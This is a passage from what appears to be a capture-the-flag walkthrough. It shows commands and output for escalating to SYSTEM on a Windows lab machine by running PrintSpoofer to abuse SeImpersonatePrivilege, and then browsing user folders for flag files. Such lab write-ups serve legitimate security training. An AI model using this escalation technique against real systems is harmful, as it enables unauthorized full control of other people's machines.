 ````commandline
                7735807 blocks of size 4096. 5136990 blocks available
smb: \> exit
````

Run the `PrintSpoofer.exe` so that we can make use of the ImpersonatePrivilege.

````commandline
c:\windows\system32\inetsrv>cd c:\inetpub\wwwroot\nt4wrksv
cd c:\inetpub\wwwroot\nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
````

## Grabbing the user.txt and root.txt flags

Looking where our potential data might be.

````commandline
C:\Windows\system32>dir c:\Users\ 
dir c:\Users\
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users

07/25/2020  02:03 PM    <DIR>          .
07/25/2020  02:03 PM    <DIR>          ..
07/25/2020  08:05 AM    <DIR>          .NET v4.5
07/25/2020  08:05 AM    <DIR>          .NET v4.5 Classic
07/25/2020  10:30 AM    <DIR>          Administrator
07/25/2020  02:03 PM    <DIR>          Bob
07/25/2020  07:58 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)  20,251,389,952 bytes free

C:\Windows\system32>
````

Grabbing the `user.txt` flag.

````commandline
c:\Windows\System32>cd C:\Users\Bob\Desktop
cd C:\Users\Bob\Desktop

C:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,193,001,472 bytes free
````